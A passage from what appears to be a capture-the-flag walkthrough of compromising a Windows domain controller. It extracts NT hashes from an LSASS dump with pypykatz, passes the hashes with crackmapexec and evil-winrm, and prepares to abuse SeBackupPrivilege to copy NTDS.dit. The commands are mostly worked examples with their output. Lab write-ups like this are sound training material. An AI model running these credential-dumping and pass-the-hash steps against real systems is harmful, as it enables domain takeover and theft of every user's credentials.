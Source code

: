 Now we can use pypykatz to dump user password hashes

```bash
pypykatz lsa minidump lsass.DMP

grep NT lsass.out -B3 | grep -i username

#and we use less to find the NT hashes

less lsass.out  #use / then type what you want to find e.g. /Administrator
```

We have the NT hashes for svc_backup and administrator. We can use CME with this and see if the hash works

```bash
crackmapexec smb 10.129.252.166 -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62  #it fails

crackmapexec smb 10.129.252.166 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d #it works, let's see if winrm also works

crackmapexec winrm 10.129.252.166 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d #it works
```

Now let’s winrm in:

```bash
evil-winrm -i 10.129.252.166 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d 

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

#can also do whoami /all, shows us we are in backup operators as well
```

As backup operators, we have permission to copy sensitive files such as SAM, SYSTEM and NTDS.dit. Let’s visit [https://github.com/giuliano108/SeBackupPrivilege?tab=readme-ov-file](https://github.com/giuliano108/SeBackupPrivilege?tab=readme-ov-file) to download the exploit DLLs.

This group also permits logging in locally to a domain controller. The active directory database `NTDS.dit`
 is a very attractive target, as it contains the NTLM hashes for all 
user and computer objects in the domain. However, this file is locked 
and is also not accessible by unprivileged users.

